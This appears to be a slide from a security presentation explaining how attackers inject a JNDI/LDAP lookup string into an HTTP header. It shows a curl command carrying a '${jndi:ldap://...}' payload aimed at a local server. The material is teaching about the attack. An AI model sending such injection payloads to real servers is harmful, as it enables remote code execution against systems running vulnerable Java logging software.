

# An HTTP request example
Attackers manipulate an HTTP request and inject malicious LDAP queries sent to an LDAP server.
curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://127.0.0.1/code}'
jndi:ldap://127.0.0.1/code is a string that resembles a JNDI (Java Naming and Directory Interface) URL pointing to an LDAP server at 127.0.0.1 (which is the local machine) with a path of /code.
${} indicates variable interpolation,. It's trying to trick the victim server into interpreting ${jndi:ldap://127.0.0.1/code} as a malicious code to execute